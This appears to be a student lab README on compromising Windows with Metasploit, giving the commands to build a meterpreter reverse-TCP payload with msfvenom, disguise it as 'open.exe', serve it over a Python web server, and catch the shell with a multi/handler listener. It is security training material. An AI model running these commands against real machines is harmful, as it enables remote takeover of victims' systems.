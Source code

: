 # EX 6 Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```

### OUTPUT:

![Screenshot 2025-04-23 224215](https://github.com/user-attachments/assets/7ba2f8e2-b6c0-4dea-99ec-0ad24ec81d84)



```python3 -m http.server 5678```

### OUTPUT:

![Screenshot 2025-04-23 224233](https://github.com/user-attachments/assets/1ddbb1a7-41c5-461c-86b3-d026903abb83)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
